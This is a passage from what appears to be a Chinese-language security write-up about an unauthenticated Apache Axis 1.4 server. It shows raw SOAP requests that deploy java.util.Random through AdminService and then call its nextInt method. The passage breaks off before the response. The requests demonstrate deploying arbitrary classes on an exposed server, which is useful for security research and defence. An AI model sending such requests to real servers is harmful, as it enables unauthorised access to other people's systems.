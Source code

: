 <br>

**Apache Axis**

其中一个未进行身份验证的服务就是Apache Axis 1.4服务器，所在的URL地址为http://website.com/pspc/services。Apache Axis允许我们在Java类中通过生成WSDL和帮助代码来构建SOAP终端节点并与之进行交互。为了管理服务器，我们必须与AdminService进行交互。URL地址如下：http://website.com/pspc/services/AdminService。

为了让大家能够更好地理解，我们在下面给出了一个演示样例。在下面这个例子中，一名管理员基于java.util.Random类创建了一个终端节点：

```
POST /pspc/services/AdminService
Host: website.com
SOAPAction: something
Content-Type: application/xml
...
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Body&gt;
        &lt;ns1:deployment
            xmlns="http://xml.apache.org/axis/wsdd/"
            xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
            xmlns:ns1="http://xml.apache.org/axis/wsdd/"&gt;
            &lt;ns1:service name="RandomService" provider="java:RPC"&gt;
                &lt;ns1:parameter name="className" value="java.util.Random"/&gt;
                &lt;ns1:parameter name="allowedMethods" value="*"/&gt;
            &lt;/ns1:service&gt;
        &lt;/ns1:deployment&gt;
    &lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

这样一来，java.util.Random类中的每一个公共方法都可以作为一个Web服务来使用了。在下面的例子中，我们通过SOAP来调用Random.nextInt()：

```
POST /pspc/services/RandomService
Host: website.com
SOAPAction: something
Content-Type: application/xml
...
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Body&gt;
        &lt;api:nextInt /&gt;
    &lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

响应信息如下：
